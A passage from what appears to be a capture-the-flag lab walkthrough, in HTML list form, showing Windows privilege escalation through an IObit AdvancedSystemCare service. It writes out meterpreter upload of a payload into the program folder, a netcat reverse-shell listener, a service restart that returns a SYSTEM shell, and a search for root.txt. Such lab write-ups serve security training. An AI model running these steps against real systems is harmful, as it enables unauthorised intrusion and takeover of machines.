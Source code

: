 <li> Then in the meterpreter, we will upload this file, move it to <code>C:\Program Files (x86)\IObit\</code>
<pre>
PS > ^C
Terminate channel 3? [y/N]  y
meterpreter > upload Advanced.exe
[*] uploading  : Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): Advanced.exe -> Advanced.exe
[*] uploaded   : Advanced.exe -> Advanced.exe
meterpreter > powershell_shell
PS > copy "C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Advanced.exe" "C:\Program Files (x86)\IObit"

</pre></li>
<li>We're create one more terminal tab to set up netcat to listen for our payload <code>nc -lvnp 4444</code></li>
<li>Back in the meterpreter, we're going to restart the service AdvancedSystemCareService9 and hope for the best
<pre>
PS > Restart-Service AdvancedSystemCareService9 
</pre></li>
<li> Hopefully we get the output on our netcat seeion
<pre>
root@ip-10-10-94-75:~# nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.109.126 49297 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
</pre>
</li>

<li>We'll first find root.txt and then print out its contents
<pre>
C:\Windows\system32>cd\  
cd\

C:\>dir /s root.txt
dir /s root.txt
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\Administrator\Desktop

09/27/2019  05:41 AM                32 root.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)  44,153,004,032 bytes free

C:\>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop
